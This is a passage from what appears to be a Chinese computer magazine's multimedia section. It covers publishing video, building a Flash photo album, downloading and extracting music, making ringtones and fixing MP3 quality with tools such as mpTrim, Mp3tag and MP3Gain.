小技巧：如果想要为声音制作特殊效果，可以右键单击音频轨上的音频文件，在弹出的菜单中打开“音频滤镜”选项，选择一些预设的音频滤镜。需要更改这些滤镜参数时，选择已用滤镜并单击界面中的“选项”，即可对这些滤镜进行编辑。使用类似的方法，还可以对声音的“回放速度”进行设置。如图15所示。



除了上述选项，剪辑过程中，还应注意使用丰富的其他滤镜功能或覆盖轨功能，以弥补视频中效果不太满意的部分。比如，通过灵活使用视频和图像的覆盖；可以设置覆盖轨上视频或图像的运动类型、在主视频上的位置、缩放率以及透明度等，它甚至还支持Alpha通道，从而制作出一些专业视频编辑软件中的“抠像”效果。

### 3. 大功告成：保存、输出及发布

现在一部完美的影片完成了，最后就是保存工作了。在网络上发布时，可以选择比较流行的格式如RM或WMV等，也可以转录到录像带、保存到硬盘、作为电子邮件附件发送、创建为视频网页，或者直接将视频嵌入到图片中制作成为视频贺卡。下面介绍最常见的方式。在“会声会影12”中，点击上面的“分享”菜单，在创建视频文件的菜单中预设了需要视频的格式，用户可以根据自己的需要进行选择。当然，也可以把视频刻录成DVD光盘，点击左侧的“创建光盘”按钮，在弹出窗口中会把需要添加的视频片段全部添加进来，接着选择一个合适的模板，再添加背景图像与背景音乐。如果预览后很满意，就可以发布到网站了。



以热门的视频发布站点YouTube为例。登录该站点，使用电子邮件注册一个用户后，单击主页右侧的“上传”按钮，即可准备发布了。在上传的第一步中，输入以下关键字段，分别是：标题、说明、视频类别、标记、传播/发送选项、日期和地图选项、录制的日期、分享选项等。如图16所示。



然后，进入第二步，直接上传文件。完成后，即可看到确认邮件。此外，网站还提供了快速录制功能。“快速录制”功能可让用户通过计算机的网络摄像头立即录制视频，使用更加方便。通过上面循序渐进的讲解，我们对视频制作的整个过程更加了解。要想真正“玩转”视频，还必须对每个环节都有更加深入的研究，比如，对某种格式播放和剪辑技巧的研究，对视频优化技巧的研究，以及对视频滤镜等方面的应用等。犹如大侠们横行天下所使用的独门绝技一样，在制作视频的过程中，还需要有一些功能卓越的优秀软件进行配合。这样，我们就能如虎添翼，制作出质量上乘的优秀作品。

## Flash版超酷相册轻松做

◆文/大嘴鸭

现在拥有数码相机的朋友是越来越多，每逢周末或节假日人们外出游玩时，拍摄数码照片就是必不可少的活动了。时间一长，硬盘中积攒的数码照片也是越来越多，大家想不想让自己拍摄的数码照片SHOW出另类的精彩呢？今天，笔者就给大家推荐一个Flash相册模板，利用它，我们可以轻松地制作出具有专业效果的Flash相册，而且和婚纱影楼制作的电子相册相比，效果那是一点都不逊色。怎么样，大家是不是有点心动呢？感兴趣的朋友就请往下看——

先下载笔者所提供的“flash超酷相册”压缩包，再将其解压到硬盘的任意位置（如E盘根目录下），接着进入“E:\flash超酷相册”目录下，大家就可以看到与这个Flash相册有关的所有文件了，如图1所示。在图1所示的窗口中，“photos”文件夹是保存我们所要加载的照片的；而gallery01、gallery02、gallery03、gallery04这四个XML格式的文件则是加载照片的，表示这个Flash相册加载的图片可以分为四类，我们可以通过修改这四个XML格式的文件来加载自己的照片；剩下的“flash超酷相册.SWF”，毫无疑问，这个就是Flash相册的主文件了。



## 一、图片处理

我们拍摄的数码照片，未经处理的话，其尺寸都会比较大，例如300万像素数码相机的常用规格是2048x1536，相当于两个电脑屏幕那么大，因此我们在制作Flash相册之前对拍摄的照片进行调整就是很有必要的了。能够调整数码照片尺寸的软件有许多，就以大家比较常用的老牌截图工具SnagIt来调整数码照片的大小吧！



第一步：先将自己拍摄的数码照片选出六幅效果较好的（也可以选更多幅），然后将这些图片复制到桌面，再用SnagIt打开其中的任意一幅，接着单击“SnagIt编辑器”窗口中的“图像→缩放→调整图像尺寸”命令，打开“调整图像大小”面板，如图2。

第二步：在图2所示的窗口中，先勾选“缩放到指定尺寸”单选框，然后取消勾选“保持高宽比”复选框，接着在“宽度”和“高度”后边的文本框分别输入640和480，将调整好大小的图片保存到“E:\flash超酷相册\photos”目录下，文件名为“Image1.jpg”。

第三步：完成第一张数码照片调整大小的工作之后，再将这张照片调整为“80×60”像素大小，然后把第二次调整好大小的照片另存为“Thumb1.jpg”，保存到“E:\flash超酷相册\photos”目录下，这样一来，我们就得到第一张数码照片的缩略图了。

按照上边介绍的方法，再调整好其它数码照片的大小，接着对数码照片进行第二次调整，得到每张照片的缩略图。需要注意的是，在保存调整好大小的数码照片时，文件名以“ImageX.jpg”格式进行命名（X为自然数，下同），而与之相关的缩略图则以“ThumbX.jpg”格式进行命名。

## 二、加载图片

完成了数码照片大小的调整工作并得到了每一张数码照片的缩略图之后，接下来我们就可以通过修改XML文件gallery02来加载这些数码照片了，其具体的操作步骤如下：

先用记事本打开XML文件gallery02（如图3），在这个窗口中大家可以发现“<photos>……</photos>”之间存在着六个结构类似于A处的小节，我们只需将第一个小节中参数“filename="fireworks.jpg"”等号后边的字符串“fireworks.jpg”替换为“Image1.jpg”、参数“thumbnail="s_fireworks.jpg"”等号后边的字符串“s_fireworks.jpg”替换为“Thumb1.jpg”，这样就完成了第一张数码照片及其缩略图的加载。

按照这个方法，再通过修改图3A处以下的其他5个小节参数filename和参数thumbnail等号后边的字符串，最后退出gallery02并保存对其所做的修改，这样我们就完成了对所有的数码照片的加载工作。同样的道理，我们也可以通过修改其它三个XML文件来加载更多的数码照片。



> 小提示
如果只想通过修改XML文件gallery02来加载更多的数码照片，可先复制图3A处的文字内容，接着在倒数第二行的末尾回车并执行粘贴操作，再通过修改粘贴的小节中参数filename和参数thumbnail等号后边的字符串就可以加载更多的数码照片了。

## 三、效果预览

至此，这个Flash相册就做好了，双击运行“E:\flash超酷相册”目录下的“flash超酷相册.SWF”，再单击窗口中的“分类二”按钮，就可以看到效果了，如图4。当然，单击图4窗口中左边其他的缩略图，就可以预览到与之对应的数码照片了。这个Flash相册的效果是不是很酷呢？感兴趣的朋友不妨自己也来做一个。


# 听觉盛宴：探索“天籁之音”的奥秘

我们几乎每时每刻都在接触音乐、感受音乐。在这个过程中，动听的旋律，悦耳的和声，有规律的节奏，起伏的响度等等，都会给人以不同的享受。不过，对于一个完整的音乐来说，它的魅力不仅仅是在主题、旋律、节奏、色彩、曲式结构、调性等，有时候还包含了作曲家的创作观念、演奏家的风格、录音师的录音技术、制作者的技术风格等等诸多因素。网络技术的发展，让普通用户有了更多接触音乐的机会，从下载音乐、欣赏音乐到制作音乐，我们几乎都有机会涉足其中，甚至在音乐制作方面也可以亲自参与。本专题以用户的需求为重点，循序渐进，通过有趣而实用的经典应用，为广大用户奉送一份丰盛的“听觉大餐”。

◆文/彭文波

# 想下就下：音乐下载实用技术

## 1. 双“狗”争霸：寻找音乐下载的王者

欣赏音乐的第一步当然是需要快速获取音乐了。现在，网络上出现了许多优秀的音乐下载软件，这里主要介绍“酷狗音乐2008”和“搜狗音乐盒”。

（1）酷狗音乐2008
软件下载地址：http://www.kugoo.com

酷狗音乐2008拥有庞大用户群贡献的海量歌曲库，而且在下载速度方面表现十分突出。软件界面十分清爽，主要突出了音乐播放与歌曲管理功能，并具有换肤和换色的功能。软件界面如图1所示。



第1步：搜索音乐
在歌曲搜索上，软件提供了灵活多变的方式。以奥运歌曲“北京欢迎你”一曲为例，打开酷狗软件后，在输入框中填入歌曲名：“北京欢迎你”，点击“音乐搜索”按钮，就可以看到搜索结果。双击其中一首歌曲（位置越靠前，速度越快），就会看到软件自动展开下载明细，包括文件名称、大小、热度、铃声、下载状态等。在播放歌曲的同时，软件会自动将其添加到播放列表。

此外，软件还提供了排行榜搜索和随机搜索方式。在酷狗排行榜中，包括由酷狗用户听歌记录生成的“新歌TOP100、歌曲TOP500、新歌推荐、DJ舞曲、影视金曲、经典老歌、情歌对唱、欧美流行、日韩流行”等排行榜，完全可以找到最新最全的热门歌曲。

第2步：下载和播放音乐
选择心仪的歌曲并单击鼠标右键，在弹出的菜单中选择“在线试听”。试听时，播放器中会出现颜色交替变化的歌词。当选择“下载”选项后，会在“下载管理”标签中看到音乐的详细信息，包括显示正在下载、已经下载等状态。在播放过程中，软件还提供了丰富的播放模式，包括：单曲播放、单曲循环、顺序播放、循环播放、随机播放等。

在网络资源紧张的情况下，通过一些简单设置可以保证试听歌曲时的畅通。点击界面左下方的“选项”菜单，打开“网络设置”选项，选择“关闭网络功能”，可以把酷狗的搜索和下载功能全部停止。这样，可以很大程度节省带宽；对于喜欢玩游戏的用户来说，还可以选择勾上“后台播放时节省带宽”以节约资源。此外，软件还提供了多个附加小工具，如动感歌词、格式转换工具、酷狗手机铃声制作工具等。

（2）搜狗音乐盒
下载地址：http://mbox.sogou.com

“搜狗音乐盒”也是一个不错的音乐播放、管理软件。下载完毕，双击安装文件，按自动提示即可完成安装。软件的主题部分是歌曲列表区域，最上方依次是主菜单按钮、搜索框、打开/关闭歌词窗口按钮，左边是我的曲库、下载管理、音乐排行榜、最新大碟、音乐专题、最近搜索等等。软件界面如图2所示。



第1步：搜索歌曲
直接在搜索框中输入相应的歌曲关键字，如歌曲名称或歌手名字等，单击“搜索”按钮即可得到许多相关的结果。

第2步：下载歌曲
在搜索结果中，右键点击想要下载的歌曲，然后在弹出的快捷菜单中选择“下载”即可。

第3步：播放歌曲
默认情况下，歌曲会被自动保存到安装文件所在盘符的搜狗专用文件夹中。需要播放歌曲时，打开左侧窗口的“本地曲库”，该歌曲就会显示在右侧窗口中，双击即可以进行播放，同时在最右侧会显示出在线歌词。除了本地播放，“搜狗音乐盒”还支持在线播放网络歌曲。为了方便用户操作，在“搜狗音乐盒”的“常规操作设置”中，还可以进行如下设置：播放网络歌曲时，自动下载歌曲到本地；向MSN发送正在播放的歌曲信息；切换歌曲时在屏幕右下角弹出提示；窗口最小化到系统托盘；按歌手分目录保存下载的歌曲；关联本地的MP3和WMA音频文件等。此外，在“下载设置”中，还可以对同时下载任务的数目进行设定，可设定的范围是：3~10。如图3所示。



如果需要浏览歌词，点击搜狗音乐盒右上角的“歌词”按钮即可。查找歌词时，在歌词界面的左下角点击“歌词查找”，即可对该歌词进行搜寻。

## 2. 信手拈来：快速下载知名网站中的音乐

这里所说的知名网站主要是音乐方面的站点。首先，在国内部分，主要以百度为例；在国外部分，主要介绍一些Web2.0专业音乐站点。

- 1. 百度歌曲下载

“百度MP3搜索”（http://mp3.baidu.com）是大家常用的搜索引擎，但它在歌曲下载和在线播放方面还不是很方便。由于受到音乐版权的限制，百度MP3搜索取消了直接下载的功能，只能通过点击歌曲名或试听来获取下载地址，然后再进行下载。这非常麻烦，不过，要是安装了最新版的迅雷，这个问题就可迎刃而解。打开迅雷，在菜单栏上选择“工具→配置→监视”，在打开的对话框上分别勾选“在Flash和流媒体文件上显示下载图标”和“智能网页分析”复选框，最后点击“确定”。现在，重新启动网页浏览器，在百度MP3搜索结果页面中，将鼠标移到歌曲名上就会弹出“下载”按钮，点击这个按钮就会自动打开迅雷进行下载。如图4所示。



为了下载方便，这里还推荐一款名为“百度MP3歌曲搜索下载器”的软件。软件下载地址：http://www.onlinedown.net/soft/25936.htm。该软件采用了网页界面，窗口从上到下分为“导航”、“搜索”和“播放”三个板块。首先单击最上方的“导航”下拉框，我们可以从中选择百度MP3搜索引擎中的众多歌曲排行榜。此外，在网络听歌的过程中，还可以使用“百度音乐盒”，避免了每次都要重复找歌、选歌。打开IE浏览器，输入：http://box.baidu.com，即可进入百度音乐盒。如果是百度注册用户，则需要点击页面中的“立即注册”注册为百度用户。登录后，点击“立即进入我的音乐盒”，打开音乐盒添加自己喜欢的歌曲。在“音乐盒管理”页面，还能将某个列表中的歌曲快速移动到其他列表中，管理十分方便。

- 2. 使用Free Music Zilla下载“音乐2.0”

为了满足消费者的个性化服务需求，各种形式的社会化音乐服务正在被建立并快速成长，它们融合了音乐的分享、推荐、用户参与等Web2.0要素，所以也被称为“音乐2.0”。目前，比较知名的站点包括Last.fm、Pandora、Mystrands等。但是，这些站点在版权保护方面比较严格，普通用户只能试听不能下载。下面，推荐一款免费下载软件Free Music Zilla，这是一款专业的社会化音乐的下载工具。软件下载地址为：http://www.onlinedown.net/soft/61123.htm。使用该软件时，首先打开“Tools（工具）→Preferences（参数）”，设定歌曲文件的保存路径。如图5所示。



然后，切换到“Monitoring（监控）”勾选浏览器，也可以选择“Custom（自定义）”选项，通过“Browser（浏览）”查找浏览器。当软件查找到音乐下载地址时，只需选中需要下载的歌曲，点击“download（下载）”按钮就可以开始下载了。经过测试，它可以免费、便捷地下载许多欧美社会化音乐网站上提供的MP3，如Last.fm、Pandora、Myspace、eSnips、MOG、iJigg等。此外，Free Music Zilla还可以下载Last.fm、MySpace中文站点的歌曲。尤值一提的是，除了能够直接下载歌曲，该软件还能自动探测并下载社会化音乐网站中的视频文件，可谓十分超值。

## 3. 提取动画或视频中的背景音乐

“爱美之心，人皆有之。”同样，当我们找到一首精彩动听的Flash MTV，或者找到一部优美动听的视频时，可能会想马上得到它的音乐文件。

- 1. 提取Flash动画中的音频文件

Flash MTV确实很好听又好看，但把它变成MP3或其他音频文件，可能就有点难度了。一般用户会想到使用转换工具。不过，这类工具比较难找，而且在转换的过程中可能存在音质失真。既然如此，直接用分解工具拆分SWF文件，不就可以享受到Flash MTV中原汁原味的音乐了吗？要完成这一工作，可以使用SWF Extractor，这是一个简单易用的Flash动画（*.SWF文件）分解工具，通过它，可以将Flash动画文件分解为MP3文件、WAV文件、GIF动画文件、JPEG图像文件、PNG图像文件等格式分别保存。软件下载地址：http://www.skycn.com/soft/12176.html

软件安装完毕，双击后即可打开主界面。单击工具栏上的“打开”按钮导入Flash MTV后，会在软件窗口中看见已经分解出来的音频文件，双击它可以进行播放。如图6所示。



现在，点击工具栏上的“提取”按钮，此时会出现“提取”对话框。提取之前，首先设置输出路径，再选择提取的资源为“选择的资源”，点击“提取”按钮就可以听到心仪的音乐了。

（2）提取FLV文件中的音频
FLV流媒体格式是一种新的视频格式，全称为Flash Video。它的出现有效地解决了视频文件导入Flash后，导出的SWF文件体积庞大，不能在网络上很好的使用等缺点。现在，很多网站视频都采用了FLV格式，如果我们仅仅想要其中的音乐，就需要用专业的软件来将视频中的音频分离出来。但是，大多数视频软件操作起来都比较麻烦，并且转换需要很长的时间。在这里，推荐一款小小的FLV Extract软件，可以迅速提取音频文件。软件下载地址：http://www.onlinedown.net/soft/60515.htm。FLV Extract是一款绿色软件，使用之前，建议安装.net Framework 2.0。打开FLV Extract后，将FLV文件拖拽到FLV Extract上，瞬间即可生成MP3文件。

# 视听新感觉：寻找音乐欣赏的新感觉

## 1. 把Flash动画放到电视里欣赏

如果能够将喜欢的Flash作品在电视上播放，那就别有一番滋味了。现在，通过ADShareit SWF to Video Converter（以下简称SWF2V）这款软件就可以达到目的。SWF2V是一款功能强大的多媒体转换工具，它能够将SWF文件快速转换成兼容的MPEG、AVI等视频格式，并能将转换后的Flash文件刻录到光盘上。

软件下载地址：http://www.newhua.com/soft/36433.htm

- 1. 第1步：导入动画
软件下载完毕，解压后即可开始安装。使用SWF2V转换文件时，首先单击软件上方的“添加”按钮，找到需要转换的Flash文件。点击“打开”按钮，通过添加文件列表，将Flash动画文件导入软件中。如图7所示。
- 2. 第2步：视频转换参数设置
导入文件后，单击软件右上方的“设置”按钮，即可打开设置对话框。这里的参数设置十分细致，包括：单击“浏览”按钮设置文件输出目录和文件名；在输出类型中，可以选择视频文件的转换类型，调整视频设置、音频设置等。以默认的AVI视频设置为例，在界面右侧还可设置AVI格式、帧速率等参数。如图8所示。
- 3. 第3步：转换视频
设置完毕，单击主界面右下方的“转换”按钮，会弹出一个转换界面。在此界面中，点击左上角的“开始”按钮，程序就会对选择的Flash动画进行转换，并在预览窗口中显出预览画面。如果遇到交互过程，如停止、播放等，点击界面上方的“暂停”按钮即可进行控制，下方的蓝色条是对文件转换进度的显示。转换完毕，将该视频刻录到光盘上，就可以将Flash文件在影碟机上进行播放了。





## 2. 新品味：寻找“立体声”的感觉

立体声，顾名思义，就是指具有立体感的声音。很多喜欢卡拉OK的朋友都会遇到这样的情况：将自己演唱的歌曲录制下来以后，回放的时候却没有原版MP3的效果好。原因很简单，这里只是单声道音频，必须将它变成立体声。要想完成这个飞跃，就可以使用NGWave Audio Editor。它可以在一个可视化的真实环境中精确快速进行声音的录制、编辑、处理、保存等操作，制作出更动听的立体声。

软件下载地址：http://www.onlinedown.net/soft/3631.htm

> 小知识：
> 按照声道的多少，可将音频文件分为单声道音频、双声道音频和多声道音频等。对于应用比较普遍的双声道音频来说，一般通过两个扬声器来播放，但如果两个声道的音频波形完全相同，则仍然是单声道效果。双声道立体声效果产生的原理在于：一个点音源到达人的左耳和右耳的时间差和空间差。


- 1. 第1步：录音或导入声音
打开NGWave软件，点击“File（文件）/new（新建）”命令或直接按【Ctrl+N】快捷键新建一个工程文件。点击录音按钮或直接按【Ctrl+F1】快捷键，在弹出的窗口中，切换到Metronome面板，然后点击“录音”按钮开始录音。如图9所示。
- 2. 第2步：处理音频时间差
录音完毕，回到软件主界面。要模拟时间差，只要对右声道的音轨进行微小的时间位移即可。选中编辑窗口中的音轨，使它成为当前操作音轨。点击鼠标左键拖动鼠标，一直到音频结束位置。选中右声道音频文件以后，点击 "Edit (编辑) / Insert Silence (插入静音)" 命令。在弹出的插入静音窗口中，设置插入静音时间为5毫秒。这样，通过多出的5毫秒静音时间，即可达到播放时产生延迟的目的。如图10所示。



设置空间差时，可以通过使左右两个声道的音量大小不同来达到。方法非常简单，按照上面的方法选中右声道音轨，还可以点击 "Edit (编辑) / Selected Channel (选择层)" 选择 "Right Channel (右层)" 命令，选中右声道音轨。音轨选择完毕，点击界面上方的 "改变音量" 图标，将 "改变音量" 滑杆拉伸即可。这时，会发现右声道的波形有轻微的拉伸，即幅值有所增大。这就是最终的音轨效果。

通过上述设置，转换操作已基本结束。点击播放按钮试听一下效果，就会感觉有立体声的效果了。

## 3. 一步到位：DIY歌曲轻松上手

借助一些专业的音频编辑软件，用户可以制作自己喜欢的音乐。但是，这些软件往往比较复杂，那么，对于普通用户来说，怎样自己制作音乐呢？现在，使用一些简单的软件，就可以把多个MP3文件连接成一个大的MP3文件，免去了单个播放的麻烦。



软件下载地址：http://www.onlinedown.net/soft/2084.htm

打开安装文件，按照提示安装即可。MP3 Joiner的界面相当简洁。使用之前，准备好自己喜欢的MP3歌曲。单击软件界面左侧的“添加”按钮，在弹出的菜单中选择歌曲所在目录，将素材添加进列表。如图11所示。

如果要对添加的音乐进行排序的话，可以选中文件，点击右侧的三角符号，即可进行排序。设置完毕，点击下方的“开始合并”按钮，就可以把歌曲快速合并在一起了。

# 硬道理：音乐铃声轻松制作

## 1. 使用“酷狗音乐2008”制作手机铃声

现在，制作手机铃声的软件很多。如“酷狗音乐2008”、“MP3超强铃声转换器”等，使用十分方便。尤其是我们熟悉的“酷狗音乐2008”，在手机铃声制作、格式转换方面也有不错的表现。首先，打开“酷狗手机铃声制作工具”，在软件界面中，红色的字幕是当前正在操作的步骤。

第1步：选择并导入铃声源文件
点击界面右上角的“打开”按钮，即可看到文件的相关信息。

第2步：设置标记点，包括开始点和结束点
点击“打开”按钮以后，回到手机铃声制作面板，歌曲将自动播放，当播放到需要设置的位置时，点击“标记起点”按钮，就可以设置手机铃声的起始点。标记终点的方法是一样的，用户可根据自己的铃声来设置。最后点击保存按钮，即可保存制作的铃声。如图12所示。

第3步：生成并试听铃声
如果试听不符合要求，点击上面的“播放”按钮重新制作。点击“生成铃声”按钮，铃声导出后将自动播放试听铃声。

第4步：保存铃声
单击右下角的“保存”按钮，弹出另存为对话框。选择文件保存的目录及文件名，最后点击“保存”按钮即可。到此手机铃声就制作完成了。



此外，软件还可以自由编辑“动感歌词”，快速进行音频格式转换。使用“音乐格式转换”工具时，在需要操作的歌曲上，点击鼠标右键，选择“格式转换”，弹出“格式转换工具”窗口即可进行操作。

## 2. 三步搞定MP3铃声剪辑

如今，MP3铃声已经逐渐成为标准铃声格式，但一首3～4分钟的MP3大小差不多就有5MB。因此，我们需要对其进行处理使用。Cooledit和GoldWave等传统的音乐处理软件稍显复杂，因此，可以选择小巧且简单的MP3文件切割工具mp3DirectCut，它可以对歌曲片段轻松进行编辑。

软件下载地址：http://www.onlinedown.net/soft/1765.htm

进入软件主界面，在配置界面中，设置语言为“Chinese Simp(简体中文)”。重启后，即可进入软件界面。具体操作如下：

第1步：导入MP3文件
依次执行“文件→打开”选项，选择需要编辑的MP3文件。如“北京欢迎你”。

第2步：设定剪切区域
在歌曲播放的过程中，可以设置需要的剪切区域。具体操作为：点击“播放”按钮开始播放歌曲，当播放至切割开始点，就可依次点击“停止”，再点击“设置起点”；随后，继续进行播放，直至需要的终点再按“停止”，并点击“设置终点”结束区域设定。如图13所示。

第3步：剪辑并保存文件
设置剪切区域后，就可以实施切割了。首先，点击“剪辑”按钮，然后按“编辑”按钮，再执行“文件→保存选区”就可以将选取的内容保存下来了。此外，对于当前的编辑工作，也可以将其保存为方案文件，这样下次打开时就可以继续使用当前的编辑内容了。



## 3. 轻松打造“真人原唱”效果

制作个性化的“真人”铃声时，需要用到“比特铃真人原唱手机铃声DIY工具”。使用它，能够保证实现真人真唱的铃声效果。

下载地址：http://act.it.sohu.com/down/softInfo.php?id=41942

第1步：设置铃声格式
打开软件，在右侧“铃声素材编辑”面板中的“铃声格式类型”及“目标文件大小”区域内，选择合适的铃声参数。需要注意的是，铃声大小有一定限制，自定义大小时，最大只能为1500KB。

第2步：导入MP3音乐
单击“打开”按钮，找到自己喜爱的MP3音乐并将其导入，此时声音的波形就会在波形窗口显示出来。如图14所示。



第3步：生成铃声音乐
在这里，首先需要选择合适的高亮区域。用鼠标拖动波形窗口中的高亮区域，并通过点击其上方的“仅播放蒙版内容”按钮，来确定这一部分的音乐是否合适。如果觉得满意，单击“保存”按钮，就可以将其保存下来作为铃声素材。

第4步：添加铃声素材
打开主界面左侧的“铃声素材”栏可以看到铃声素材。接下来用鼠标右键单击此铃声素材，从弹出的快捷菜单中选择“加入混音轨道”命令，软件会自动切换到“音乐素材混音”标签面板中。

第5步：录制“真人真唱”
音乐部分制作完毕，切换到“铃声素材编辑”标签面板中的“录音面板”，选中“声音来源”为“麦克风”。然后，在“录放操作”区域内设置“录音时间限制”的时间。现在，单击“开始录音”按钮，就可以放开喉咙大声歌唱了。声音录制完毕后点击“保存素材用于混音”按钮。如图15所示。



第6步：合成音轨，生成铃声
在主界面中，切换到“音乐素材混音”标签，可以看到有两条音轨，分别放置了制作好的铃声素材和录制的声音。通过点击“混音试听”按钮播放音乐和声音，来使用鼠标调整好它们之间的位置关系，达到声音和音乐同步。然后在“优化调节”区域对铃声进行优化，如“人声加强”、“噪音衰减”等等，以使铃声达到最佳效果。最后，点击“铃声生成”按钮进入“生成铃声”界面中，设置好铃声的标题、作者以及保存位置，再点击“生成铃声”按钮，这样一段体现个性的真人真唱铃声就“诞生”了。

通过上述方法，已经可以制作出比较满意的铃声。当然，我们还可以选择其他的制作工具，如GoldWave，软件下载地址为：http://www.onlinedown.net/soft/5236.htm，打造出专业的个性手机铃声。

# 4. 不用工具，个性铃声网上做

除了自己制作铃声，我们还可以直接在网络上制作个性铃声。通过“makeownringtone”这个网站（地址：http://www.makeownringtone.com），即可在线制作个性化铃声。

第1步：上传音乐文件
打开页面，单击控制条上的“Upload（上传）”按钮，选择存储在本地硬盘上的音乐文件，就能够上传需要处理的音乐文件。

第2步：在线编辑音频
上传完毕，在控制条上方即可看到音频波谱图。按下“Play（播放）”按钮，就能够播放该音乐文件。在开始截取的位置按下鼠标左键，然后拖动鼠标以选取整个截取片断，此时片断会以反白显示。同时在“Selected duration（选择的波段）”和“Selected portion（选择的部分）”显示片断的持续时间以及起止时间。为欣赏截取片断的效果，按下“Selected（选择）”按钮就能够直接播放片断，非常方便。如图16所示。



第3步：设置铃声参数
选择好截取片断之后，单击“EASY MODE（简易模式）”选项卡，展开“File Format（文件格式）”列表，从中选择与自己手机相匹配的音频格式，并在“BitRate（比特率）”处选择相应的采样率。最后，在“Download（下载）”处选择“to computer（到电脑）”选项，并勾选“Normalize（使正常化）”。如果对铃声的音乐效果不满意，还能够在制作页面中的“ADVANCED MODE（高级模式）”和“EXPERT MODE（专家模式）”对铃声进一步加工处理。

第4步：制作铃声
完成上述设置后，单击“MAKE A RINGTONE（制作铃声）”按钮，就能够提取转换音乐片断。最后，单击提示框上的“Download Ringtone（下载铃声）”链接，便能够将量身打造的铃声文件下载到本地硬盘中。

# 音乐修复：尽情提升音乐品质

如今，网络上各种品质的歌曲触手可及，非常方便。但是音乐品质往往良莠不齐。比如，有的歌曲声音奇高，有的歌曲名不符实或显示乱码，有的歌曲前后静音太长，这些问题严重影响了听歌的心情。如果需要较高的音乐品质，我们完全可以自己动手，通过编辑加工进一步提升音乐品质。

## 1. 快速修复MP3，让音乐聆听更欢畅

### （1）mpTrim：让歌曲静音统一效果

通过mpTrim的静音检测功能，可以剪掉多余的静音，而且可以对MP3进行淡入/淡出的处理，让音乐的过渡更加自然。

软件下载地址：http://www.onlinedown.net/soft/6300.htm
启动mpTrim软件，然后点击“打开”并选择一首MP3，然后在“你想要剪切多少？”栏里可以通过自动或者预览来决定剪切多少。如果对自动检测静音的效果不满意可以点击“选项”，在两个“静音”标签里进行设置，以获得最好的静音自动检测效果。最后，点击“保存”按钮，一首去掉头尾多余静音的MP3歌曲就出炉了。

### （2）Mp3tag：让歌曲乱码全不见

Mp3tag是一款专门针对MP3文件ID3-Tag的信息修改器。所谓ID3-Tag信息，就是在MP3文件中加入曲名、演唱者、专集、年月、流派、注释等信息，便于用户收集歌曲。

软件下载地址：http://www.onlinedown.net/soft/23024.htm
启动软件后，点击“文件→添加目录”，将MP3文件导入软件，在右边的列表中选中歌曲，左右便会显示详细的ID3信息。对于那些MP3文件名称与ID3标签信息不符的MP3，可以通过“转换”功能批量执行。在菜单中，可以看到，转换的功能包括：“标签—文件名”、“文件名—标签”、“文件名—文件名”等，能够以模板形式快速变换。此外，“工具”菜单中的“自动音轨编号向导”也是一个非常实用的功能，它能将大量的歌曲统一打上音轨号，方便将来查找需要的歌曲。如图17所示。



### （3）MP3Gain：让歌曲音量一样高

软件下载地址：http://www.skycn.com/soft/8924.html
MP3Gain是一个专业的MP3音量调整软件，它既可以调整单首MP3歌曲的音量，也可以平衡整张专辑的音量，还支持调节单个声道。在刻录光盘之前，如果将所有MP3歌曲的音量分析并调整到相同大小，就不用每次都调整音量了。

首先，启动软件并点击“添加文件”将MP3导入到软件中，在软件界面中间的“对象 标准化/最大化 音量：”区域，设定一个音量分贝值，让每个MP3文件都达到这个音量水平。如果声音高过设定值，将会被“剪裁”掉。

然后，点击“分析→音轨分析”，软件会参考设定值并给出分析结果。如图18所示。



最后，点击“更改增益→应用音轨增益”开始统一音量的任务。“剪裁”会导致音质的粗糙，在歌曲比较大声的部分会发出杂音，为了避免大部分MP3被“剪裁”，可适当将设定值调高。

### （4）巧用“千千静听”提升MP3音质

除了使用一些工具软件，我们还可以使用一些比较常见的音乐播放软件来提高音质，如“千千静听”。

#### ① 巧用“千千静听”解决MP3爆音问题

在切换歌曲的时候，经常出现刺耳的爆音现象，这往往会让用户烦恼不已。出现这一现象的主要原因在于解码芯片和MP3的编码上，过高的编码或不同编码的MP3音乐切换时容易爆音。要解决这一问题，我们可以通过使用“千千静听”再次转换这些歌曲，提高音乐品质。在“千千静听”播放列表中，选中这些需要改进的歌曲。然后，点击右键选择“转换格式”，选择“MP3编码器”，然后点击“配置”按钮。如图19所示。



在“编码质量”栏中选择“恒定码率（CBR）”，具体的码率视当时MP3的总体质量而定，建议选择128或者256kbps。最后点击“立即转换”按钮即可。这样，经过再次转换出来的MP3就有了相同的码率，就不会出现爆音现象了。需要注意的是，如果原来是128kbps或以下较低码率的MP3转换为256kbps，MP3文件体积会增大，但是音质并不会明显提高。

#### ② 巧用“千千静听”加入MP3音效

部分高档MP3播放器拥有多种特色音效功能，可以把普通的MP3歌曲播放出多种效果。但是，并不是所有的MP3播放器都具备这个功能。其实，通过“千千静听”给MP3歌曲“植入”特色音效属性，然后存入普通MP3播放器，也能感受比较不错的音效提升。首先，在“千千静听”中启用均衡器并设置好恰当的环绕音效，在播放列表中选中某一类风格的音乐，并点击进入到“转换格式”界面。这里的关键在于，将“音效处理”中的“启用回放增益”、“启用当前均衡器设置”和“启用当前杜比环绕设置”选中，也可以只选择其中某项。不同的音乐加入不同的音效，这样就不用在MP3播放器中反复切换了。比如，在音效处理中选择启用当前杜比环绕设置。如图20所示。


选好之后，点击“立即转换”按钮，就开始对歌曲进行转换。这样MP3歌曲本身就带有了设定的音效，即使是低档的MP3播放器中不用担心了。通过上述功能各异的特色讲解，我们就可以领略到音乐欣赏的各种美妙之处了。在这个制作与欣赏的过程中，内心体验与认知活动永远是结合在一起的。通过一些“锦上添花”的制作，我们对音乐的理解也将在无形之中达到一个崭新的境界。让我们跨入那美妙无穷的宏大的音乐圣殿，自由尽情地翱翔吧！

# 批量转换图片只需“右键”

经常与电脑打交道，总少不了要对图片进行一些处理，例如转换图片格式。最基础的办法，我们可以打开图片，然后将图片另存为其他格式。这种方法在应付为数不多的几张图片时还可以接受，但是如果需要对大量图片进行处理，这种方法显然过于繁琐。有些软件提供了“批量转图”功能，例如我们可以使用Photoshop的自动命令进行图片格式转换，但打开这些软件往往会耗费大量的系统资源。正所谓“杀鸡焉用宰牛刀”。事实上，我们完全可以使用一些技巧实现右键菜单快速转图。下面就来一起了解几位具备快速转图功能的“右键转图高手”。

◆文/TMG lk

## 一、转图单项冠军——XnView shell Extension

XnView shell Extension体形小巧，操作简单，但在右键看图转图方面却堪称独步天下，可一步完成图片格式转换。

### 1. 软件下载与安装

